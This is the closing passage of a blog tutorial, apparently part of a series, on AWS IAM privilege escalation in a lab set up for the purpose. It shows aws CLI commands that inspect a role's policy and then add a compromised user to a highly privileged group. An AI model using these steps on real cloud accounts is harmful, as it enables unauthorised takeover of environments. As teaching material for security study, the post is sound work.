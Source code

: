 Further, the policy document shows that this role has permission to add **Any** user to any group:

```bash
aws iam list-attached-role-policies --role-name privesc13-AddUserToGroup-role

aws iam get-policy-version --policy-arn arn:aws:iam::xxxxxxxxxxxx:policy/privesc13-AddUserToGroup --version-id v1
```

![](/assets/img/posts/aws-priv-esc-01/case-13-02-Get-Policy-Document.png)
_Get policy document of specified policy_

### Privilege Escalation
With the confirmation of what this role can do, the first step is to assume it. After that, we can add our compromised user to a higher privileged group. The `privesc-sre-group` is one such group that allows full access to this AWS environment:

```bash
aws iam add-user-to-group --group-name privesc-sre-group --user-name compromised-user-name --profile privesc13
```

![](/assets/img/posts/aws-priv-esc-01/case-13-03-Put-User-to-Group.png)
_Adding compromised user to higher privileged group_

Since our compromised user is now part of a group which has high privileges, this grants us higher privileges than we previously had.

## Wrapping Up
In this blog post, we covered very few misconfigurations in an AWS environment that could lead to escalated privileges. This was the first post in a series to come. I might not write about every technique, but will surely try to list down the major ones.

See you in the next post. Adios!
